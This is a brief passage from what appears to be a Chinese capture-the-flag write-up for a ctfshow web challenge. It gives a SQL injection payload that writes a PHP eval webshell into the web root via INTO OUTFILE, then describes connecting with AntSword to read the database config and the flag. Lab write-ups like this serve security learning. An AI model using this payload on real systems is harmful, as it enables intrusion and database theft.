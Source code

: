 ![](/medias/ctfshow-web/38.png)

写入webshell
```php
password=1' union select 1,2,'<?php eval($_POST[1]);?>' into outfile'/var/www/html/1.txt'%23&username=1
```

蚁剑连接，找到数据库配置内容

![39](/medias/ctfshow-web/39.png)

蚁剑连接数据库，查看flag

